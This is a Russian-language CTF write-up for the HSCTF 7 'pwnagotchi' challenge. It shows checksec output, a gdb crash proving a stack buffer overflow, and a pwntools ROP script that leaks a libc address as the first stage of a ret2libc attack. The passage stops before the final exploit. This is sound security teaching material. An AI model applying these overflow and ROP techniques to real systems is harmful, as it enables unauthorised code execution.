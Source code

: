 # HSCTF 7

##  pwnagotchi


> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

## Анализ бинарного файла
### file pwnagotchi
```
    pwnagotchi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
                interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
                BuildID[sha1]=f8c34ef43ba5a8fbce8b89987797d88f7adbb31f, not stripped
```
### checksec pwnagotchi
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Итак, что мы имеем: 64-битный исполняемый ELF файл, отсутствует стековая канарейка и сегмент текста программы в памяти расположен по статическому адресу. 

##  Как работает программа
### ./pwnagotchi
```
    Enter your pwnagotchi's name: 
    admin

    \ (•-•) /
    
    admin is not happy!
```
Админ несчастлив. Программа принимаем наш ввод и печатает его. Посмотрим глубже.
### Декомпилирование с Ghidra
![](decompile_main.png)

Можно заметить, что программа уязвима к переполнению буфера, строки 6 и 18 это подтверждают. Попробуем перезаписать адрес возврата для функции main, открываем gdb.
```
    gdb-peda$ r
    Starting program: /home/white/Desktop/pwnagotchi 
    Enter your pwnagotchi's name: 
    AAAAAAAAAAAAAAAAAAAAAAAAAA

    \ (•-•) /

    AAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x0 
    RDX: 0x0 
    RSI: 0x7fffffffb9a0 ('A' <repeats 26 times>, " is not happy!\n")
    RDI: 0x7ffff7fa44c0 --> 0x0 
    RBP: 0x4141414141414141 ('AAAAAAAA')            // Если мы можем перезаписать RBP и мы не ограничены в длине
    RSP: 0x7fffffffe050 --> 0x0                     // вводимой строки, мы точно можем перезаписать RIP
    RIP: 0x414141414141 ('AAAAAA')                  // Действительно, мы это сделали.    
    R8 : 0xffffffff                                 // RIP перезаписан нашим вводом: 'A' = 0x41
    R9 : 0x29 (')')
    R10: 0x7fffffffe034 ('A' <repeats 26 times>)
    R11: 0x246 
    R12: 0x400700 (<_start>:	xor    ebp,ebp)
    R13: 0x7fffffffe120 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x414141414141
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffe050 --> 0x0 
    0008| 0x7fffffffe058 --> 0x7fffffffe128 --> 0x7fffffffe426 ("/home/white/Desktop/pwnagotchi")
    0016| 0x7fffffffe060 --> 0x100040000 
    0024| 0x7fffffffe068 --> 0x400846 (<main>:	push   rbp)
    0032| 0x7fffffffe070 --> 0x0 
    0040| 0x7fffffffe078 --> 0x6dd3503f33091595 
    0048| 0x7fffffffe080 --> 0x400700 (<_start>:	xor    ebp,ebp)
    0056| 0x7fffffffe088 --> 0x7fffffffe120 --> 0x1 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000414141414141 in ?? ()
```
##  Планирование Атаки
Настало время планирования. Мы можем перезаписывать RIP, но при этом у нас имеется NX бит, делающий стек неисполяемым. Предлагаю провернуть атаку re2libc, но есть проблема, которую необходимо решить перед проведением атаки: **необходимо узнать версию libc на сервере**. Для этого сделаем искусственную утечку адресов libc, а затем опеределим версию библиотеки с помощью этих адресов.

##  Перчая часть:    Утечка libc
```python
    from pwn import *

    p = process("./pwnagotchi")             # To work locally
    #p = remote("pwn.hsctf.com", 5005)      # To work on the server

    pop_rdi = p64(0x00000000004009f3)       # We are looking for a gadget for payload
                                            # In radare2, this is done like this: /R pop rdi
    getegid_got = p64(0x601048)             # Getegid function address in GOT table
                                            # In gdb, this is done like this: 
                                            # x/i <getegid_call_address>
    puts = p64(0x00000000004007f2)          # Calls to the puts function in a text segment

    offset = 8 * 2 + 4                      # Offset to RIP
    payload = "A" * offset + pop_rdi + getegid_got + puts
    p.sendline(payload)                     # Payload Departure
    print p.recvuntil("s not happy!\n")     # Start reading after the given line
    leak = p.recvline().strip()             # Save read line
    leak = binascii.hexlify(leak)           # Convert string characters to hexadecimal numbers
    print ("Leak is: " + leak)              # Libc leak output
```
Не забываем, что у нас little endian, поэтому адрес утечки будет **побайтово в обратном поряде**.

##  Вторая часть:   Определение версии libc
Для этого воспользуемся сайтом libc database [example site]:http://example.com
